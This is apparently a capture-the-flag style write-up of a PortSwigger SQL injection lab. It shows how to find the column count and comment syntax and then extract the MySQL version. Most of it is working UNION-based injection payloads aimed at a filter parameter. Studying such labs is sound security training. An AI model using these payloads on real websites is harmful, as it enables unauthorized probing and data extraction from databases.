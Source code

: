 ```yaml
---
title: PortSwigger - SQLi 8 - Querying DB type and version on MySQL and Microsoft
date: 2023-05-16
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the database version string.

## ✅ Solution

> We know it is a MySQL or Microsoft database so we will have to try different comment symbol:
> `--comment` for Microsoft
> `#comment` or `-- comment` for MySQL
> The `#` will be encoded as `%23` and the space `` as `%20`

Find the number of columns while trying different comments:

````text
# Microsoft: --comment
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error! 
# MySQL: #comment
<website>/filter?category=Gifts'UNION SELECT NULL%23                # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL%23           # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL%23      # error! 
# MySQL: -- comment
<website>/filter?category=Gifts'UNION SELECT NULL--%20              # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--%20         # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--%20    # error! 
````

We know 2 columns are returned by the questy. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--%20        # works
````

> To determine the database type and version on MySQL we have to query `@@version`.
> The `@` character is `%40` when URL encoded.

Full payload:

````text
<website>/filter?category=Gifts'+UNION+SELECT+%40%40version,NULL--%20    # works
````

The database type and version are displayed.
